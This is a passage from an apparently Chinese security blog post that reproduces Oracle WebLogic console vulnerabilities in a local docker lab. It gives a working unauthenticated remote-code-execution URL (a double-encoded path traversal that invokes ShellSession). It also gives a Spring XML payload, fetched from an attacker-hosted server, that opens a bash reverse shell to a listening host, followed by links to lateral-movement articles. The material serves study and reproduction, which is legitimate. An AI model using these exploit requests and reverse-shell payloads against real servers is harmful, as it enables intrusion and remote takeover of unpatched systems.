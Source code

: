![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8LkrvicZdDWu6BY69REPFR2g61HibxNHpY5e9JiaUOybibAebicQUEBoRzc7XgArFhbA7ggCYtgec1pjQ/640?wx_fmt=png)

首先测试以下漏洞代码执行是否成功，在 / tmp / 下创建一个 test 文件夹

访问 http://192.168.1.10:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27touch /tmp/test%27);%22);

得到如下界面，这里看起来没有利用成功

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8LkrvicZdDWu6BY69REPFR20fJDFdqiaBeMcXvs78Vbib74ULiaok4QwLhPtG91ibOgBNxjZUJZqVc6ag/640?wx_fmt=png)

我们进入 docker 查看发现文件夹已经创建成功了

```
docker pssudodocker exec -it b6a1b6c3e4d1 /bin/bash
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8LkrvicZdDWu6BY69REPFR26c1mIGOsOVCZKPibdOE3CngSXUSszZ8AGXyXqtNIsicOB8ibd7FgwKJIg/640?wx_fmt=png)

这里创建一个 xml 文件，还是使用 bash 命令得到反弹 shell

```
# reverse-bash.xml<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd"><bean id="pb" class="java.lang.ProcessBuilder" init-method="start"><constructor-arg><list><value>/bin/bash</value><value>-c</value><value><![CDATA[bash -i >& /dev/tcp/192.168.1.2/5555 0>&1]]></value></list></constructor-arg></bean></beans>
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8LkrvicZdDWu6BY69REPFR2vYOYoiaV2GOPQUwYB6Ugl2sXLdox6RVPicw5vTAxl0JGoHlf1FDxOWicw/640?wx_fmt=png)

nc 开启监听端口，访问

http://192.168.1.10:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://192.168.1.2:8000/test.xml")

即可得到反弹 shell

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8LkrvicZdDWu6BY69REPFR2aSnmyNzibiaGrLnHPLKcGeS6btbFXpQvZvhYabBbrgCMxIAJpzaVZohw/640?wx_fmt=png)

总结
==

weblogic 的漏洞其实有很多，这里只是挑了一些比较常见的漏洞进行漏洞分析和复现，其实也有批量检测漏洞的软件，这里为了加深印象还是手动复现了一遍，这里漏洞分析这一块当然也是跟着大佬们的思路跟下去，这里对前辈们表示衷心的感谢，不足之处欢迎指出。

**![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)**

**推荐阅读：**

[内网渗透 | 横向移动中 MSTSC 的密码获取](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498288&idx=1&sn=851640e1e271c348c195bdb7400d62cc&chksm=ec1caf0fdb6b261935f92e8e3458ac01ef27f323668098bc12edb462db60fd9c1c27217a8e21&scene=21#wechat_redirect)  

[内网渗透｜域内的组策略和 ACL](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498685&idx=1&sn=1bd6fe9cadc922422de5cabf83f85cea&chksm=ec1cae82db6b2794c8bc997921742492fe52832d0436718f2f570a173e43a837c65987b93e8a&scene=21#wechat_redirect)  
